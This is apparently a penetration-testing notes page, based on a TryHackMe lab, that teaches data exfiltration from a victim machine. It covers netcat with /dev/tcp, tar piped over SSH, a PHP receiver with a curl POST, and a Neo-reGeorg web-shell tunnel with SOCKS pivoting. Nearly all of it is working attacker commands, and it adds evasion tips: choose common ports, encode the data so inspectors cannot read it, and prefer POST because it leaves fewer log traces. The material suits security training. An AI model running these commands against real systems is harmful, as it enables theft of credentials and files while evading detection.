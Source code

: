 # Data Exfiltration

### Exfil using a TCP socket

* Good for when you know there are no network based security products&#x20;
* This is NOT recommending in a network that is well secured
* This is easy to detect because we are using anon standard protocols&#x20;

<figure><img src="../.gitbook/assets/9931b598f5757bbdfb74004a2a43fe16.png" alt=""><figcaption></figcaption></figure>

* This shows the two hosts communicating over port 1337&#x20;
* In the real world please pick a normal port like 443 or 80, 8080, 8443 etc, etc
* The first machine listens on 1337&#x20;
* The other machine connects to `1.2.3.4:1337`&#x20;
* The first machine establishes the connection&#x20;
* Finally you can now send and receive data&#x20;

#### Set up your listener on the attack machines&#x20;

```
nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```

* Now on the victim to exfil the data

```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

* Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.

```
ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```

* On the attack box, we need to convert the received data back to its original status. We will be using the dd tool to convert it back.&#x20;

```
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
tar xvf task4-creds.tar
task4/ 
task4/creds.txt
```

### Exfiltration using SSH

* SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.

<figure><img src="../.gitbook/assets/aa723bb0e2c39dfc936b135c4912d1cf.png" alt=""><figcaption></figcaption></figure>

* To transfer data over the SSH, we can use either the Secure Copy Protocol SCP or the SSH client.
* Lets assume `scp` is not on the target machine
* From the victim machine&#x20;
* `jump.example.com` is the attacker machine&#x20;

```
tar cf - task5/ | ssh user@jump.example.com "cd /tmp/; tar xpf -"
```

1. We used the tar command the same as the previous task to create an archive file of the task5 directory.
2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

* This one line command will push directories or files from the victim machine
* This is a disaster for logging
* Each time you do this will log on the victim machine with the ip of your attacker machine
* Use with extreme caution!!!!

### HTTP POST Request

* Exfiltration data through the HTTP(s) protocol is one of the best options because it is challenging to detect. It is tough to distinguish between legitimate and malicious HTTP traffic.&#x20;
* We will use the POST HTTP method in the data exfiltration, and the reason is with the GET request, all parameters are registered into the log file.&#x20;
* While using POST request, it doesn't. The following are some of the POST method benefits:
* POST requests are never cached
* POST requests do not remain in the browser history
* POST requests cannot be bookmarked
* POST requests have no restrictions on data length

#### Example Apache Log

* Take a look at the different web logs
* The POST contains way less about our activities&#x20;

```
10.10.198.13 - - [22/Apr/2022:12:03:11 +0100] "GET /example.php?file=dGhtOnRyeWhhY2ttZQo= HTTP/1.1" 200 147 "-" "curl/7.68.0"
10.10.198.13 - - [22/Apr/2022:12:03:25 +0100] "POST /example.php HTTP/1.1" 200 147 "-" "curl/7.68.0"
```

* We prefer HTTPS but can use either HTTPS or HTTP for data exfiltration
* We will need a php page that handles the post requests on our attack or exfil machine

#### Steps to exfil data

* Set up a webserver on your attack machine with a .php page&#x20;
* The C2 agent or attacker sends the data to the page using the `curl` command&#x20;
* The webserver will recieve the data and store it&#x20;
* We will use `contact.php` for our web server and store the files collected in the `/tmp` folder&#x20;

#### php file&#x20;

```
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

* run the apache2 server&#x20;

```
sudo systemctl start apache2
```

#### Exfil the files&#x20;

```
curl --data "file=$(tar zcf - task6 | base64)" http://web.example.com/contact.php
```

* The base64 recieved will be broken due to the url encdoding over the HTTP.
* The + symbol has been replaced with ' ' (spaces)
* Can easily be fixed with the sed command&#x20;

```
sudo sed -i 's/ /+/g' /tmp/http.bs64
#now decode it 
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

### HTTP Tunneling&#x20;

* Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via HTTP
* This is useful when certain hosts are not able to reach the internet&#x20;

![HTTP Tunneling](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/92004a7c6a572f9680f0056b9aa88baa.png)

* For HTTP Tunneling, we will be using a [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to establish a communication channel to access the internal network devices.
* Now lets generate an encrypted client file to upload it to the victim web server&#x20;

```
python3 neoreg.py generate -k my_key  
```

* `-k` is the key for the file so in the real world make it strong&#x20;
* The previous command generates encrypted Tunneling clients with `my_key` key in the `neoreg_servers/` directory. Note that there are various extensions available, including PHP, ASPX, JSP, etc.
* We will be using `tunnel.php`
* Upload the `tunnel.php` file to the victim web server&#x20;
* Now lets connect to the neo from our attack machine that we just uploaded&#x20;

```
python3 neoreg.py -k my_key -u http://MACHINE_IP/uploader/files/tunnel.php
```

* Once you connect we are ready to use the tunnel connection as a proxy on out local machine `127.0.0.1:1080` in the real world change the port to something random&#x20;
* Now we can tunnel further into the network&#x20;
* To curl with socks we can do what is below&#x20;

```
curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```


